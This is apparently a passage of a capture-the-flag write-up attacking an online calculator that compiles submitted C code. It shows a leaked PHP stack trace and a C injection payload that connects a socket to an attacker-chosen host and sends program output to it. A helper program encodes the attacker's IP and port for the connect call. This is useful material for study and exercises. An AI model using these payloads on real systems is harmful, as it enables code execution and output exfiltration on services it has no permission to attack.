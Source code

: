 ```
#0 /srv/olc/vendor/misterion/ko-process/src/Ko/ProcessManager.php(190): Ko\ProcessManager->internalFork(Object(Ko\Process))
#1 /srv/olc/public/calc.php(39): Ko\ProcessManager->fork(Object(Closure))
#2 /srv/olc/public/calc.php(64): Calc->compile()
#3 /srv/olc/public/calc.php(111): Calc->eval('1+1')
#4 {main}
  thrown in /srv/olc/vendor/misterion/ko-process/src/Ko/ProcessManager.php on line 164
```

Yes it's C. Let's inject our socket payload:

```cpp=
3;
int f = socket(2, 1);
connect(f, "CONNECTPAYLOAD", 16);
dup2(f, 1);
dup2(f, 2);
int ret = write(4, "Hello", 5);
printf("ret: %d\n", ret);
perror("read");
```

And use this to generate the connect seoncd parameter:

```cpp
#include <stdio.h>
#include <stdlib.h>
#include <sys/socket.h>
#include <arpa/inet.h>
#include <unistd.h>
#include <string.h>

int main(int argc, char const *argv[])  {
    if (argc != 3) {
        printf("Usage: %s ip port", argv[0]);
        return 0;
    }
    struct sockaddr_in serv_addr;
    serv_addr.sin_family = AF_INET;
    serv_addr.sin_port = htons(atoi(argv[2]));
    if(inet_pton(AF_INET, argv[1], &serv_addr.sin_addr)<=0)
    {
        printf("\nInvalid address/ Address not supported \n");
        return -1;
    }

    printf("Size: %d\n", sizeof(serv_addr));
    unsigned char* ptr = (unsigned char*) &serv_addr;
    for (int i=0; i<sizeof(serv_addr); i++) {
        printf("\\x%02x", ptr[i]);
    }
    return 0;
}
```
